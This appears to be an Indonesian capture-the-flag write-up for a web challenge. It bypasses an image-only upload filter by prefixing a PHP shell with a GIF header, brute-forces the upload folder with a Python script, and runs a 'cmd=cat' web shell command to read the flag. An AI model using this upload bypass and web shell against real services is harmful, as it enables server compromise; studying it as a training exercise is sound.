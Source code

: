 # __ASGama CTF__ 
## _Private Storage_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 200 | l0l

**Description:** 

> http://ctf.asgama.web.id:41003


### Private Storage
Setelah beberapa lama recon. Ditemukan beberapa petunjuk :  
1. Service hanya menerima image.
2. Disimpan dalam sebuah folder berupa base64 dari timestamp upload file.
3. File tanpa extensi ( misal `a` akan direname menjadi `hash`.a)
4. Deteksi gambar melalui headernya saja.

Setelah upload file kita dapat membuka file tersebut dari dashboard kita, jika file extensinya gambar, maka dapat dibuka dan url yang ditampilkan adalah url asli dari file tersebut di server. Namun jika tidak, maka service akan memaksa kita untuk download tanpa memperlihatkan dimana letak file tersebut.

Maka kita cukup melakukan beberapa hal:  
1. Buat akun agar dapat upload.
2. Upload file image normal, buka image tersebut lalu simpan addressnya.
3. Siapkan file shell, lalu ubah header nya menjadi gambar. Misal GIF, tambahkan "GIF89a" di awal file.
4. Upload lalu catat nama filenya. 
5. Cari file php yang di upload dengan brute force berdasarkan timestamp file gambar yang berhasil diupload.

### Payload
```py
from requests import *
from sys import stdout
__URL__ = "http://ctf.asgama.web.id:41003/storages/"
filename = "/b7f246b1d77c289fe8143ef48201ab40.php"

limit = int("MTU0NjEwMzEyMw==".decode("base64")) # time stamp dari file image normal
flag = False

while not flag:
    stdout.flush()
    stdout.write("\r"+str(limit))
    r = get("{}{}{}".format(__URL__,str(limit).encode('base64')[:-1],filename))

    if (r.status_code == 200):
        __URL__ = "{}{}{}".format(__URL__,str(limit).encode('base64')[:-1],filename)
        print __URL__
        flag = True
    limit+=1
```

### Result
```
```

### Flag

# http://ctf.asgama.web.id:41003/storages/MTU0NjEwMzEyMw==/b7f246b1d77c289fe8143ef48201ab40.php
# http://ctf.asgama.web.id:41003/storages/MTU0NjEwMzEyMw==/b7f246b1d77c289fe8143ef48201ab40.php?cmd=cat ../../storages/bendera/flag.txt
# ASGama{dont_forget_to_rename_file_extension}